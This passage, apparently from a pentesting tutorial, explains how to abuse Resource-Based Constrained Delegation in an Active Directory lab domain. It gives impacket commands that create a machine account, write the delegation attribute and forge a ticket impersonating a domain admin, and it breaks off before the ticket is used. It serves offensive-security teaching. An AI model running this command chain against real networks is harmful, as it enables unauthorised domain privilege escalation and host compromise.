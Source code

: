 <p align="center">
   <img src="/assets/img/SPNs.png">
</p>

As we have not account with SPN pwned, we have two possibilities to exploit this problem. For the first one we need permission to create machines accounts and the second one we can use any account but we have to change the password and use pass the hash.

### How to abuse RBCD with permission to create machine accounts

Our user has permission to create machines, the first thing that we have to do is create a machine account, we can user the impacket script `addcompute.py`.

`addcomputer.py -computer-name 'testrbcd' -computer-pass RBCDrules -dc-ip dc01.brain.body brain.body/retard`
<p align="center">
   <img src="/assets/img/addmachine.png">
</p>

After that we add this new account to the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute  for the  *Windows10* machine. We can use the `rbcd.py`  *impacket* script:

`rbcd.py -delegate-to 'WINDOWS10$' -action 'write' -delegate-from 'testrbcd$' -dc-ip dc01.brain.body brain.body/retard`
<p align="center">
   <img src="/assets/img/rbcd.png">
</p>

The next step is create a ticket with the machine account which we create before, we que create the ticket we have to impersonate the user who we want, for example a domain admin, with this we could access to the *Windows10* machine.

`getST.py -spn cifs/Windows10.brain.body -impersonate acapaz -dc-ip dc01.brain.body brain.body/testrbcd$`

<p align="center">
   <img src="/assets/img/impersonar.png">
</p>
After that we only have to export the ccache ticket and use to access in the *Windows10* machine:
